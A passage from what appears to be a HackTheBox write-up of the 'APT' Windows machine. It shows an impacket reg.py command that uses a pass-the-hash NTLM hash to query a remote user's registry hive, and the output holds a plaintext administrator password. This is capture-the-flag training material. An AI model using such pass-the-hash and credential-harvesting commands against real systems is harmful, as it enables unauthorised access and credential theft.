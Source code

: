 <p class= "aligncenter" >
  <img src="/assets/img/Posts/APT/rpcclient.png" class="center">
</p>


Now we have a set of valid usernames, a correct username:hash pair, we are still unable to get on the box via Evil-Winrm Pass The Hash technique, we need to enumerate more, digging further into impacket, there is a remote registry enumeration script reg.py we can use it to read the contents in the HKLM and HKCU Registry hives.


```shell
┌──(sid㉿kali)-[~/…/hackthebox/windows-machines/apt/smb] 
└─$ reg.py htb.local/henry.vinson@apt.htb -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU -s

<SNIP>

\Software\GiganticHostingManagementSystem\ 
        UserName        REG_SZ   henry.vinson_adm 
        PassWord        REG_SZ   G1#Ny5@2dvht 
\Software\Microsoft\

</SNIP>
```
<p class= "aligncenter" >
  <img src="/assets/img/Posts/APT/reg-py.png" class="center">
</p>

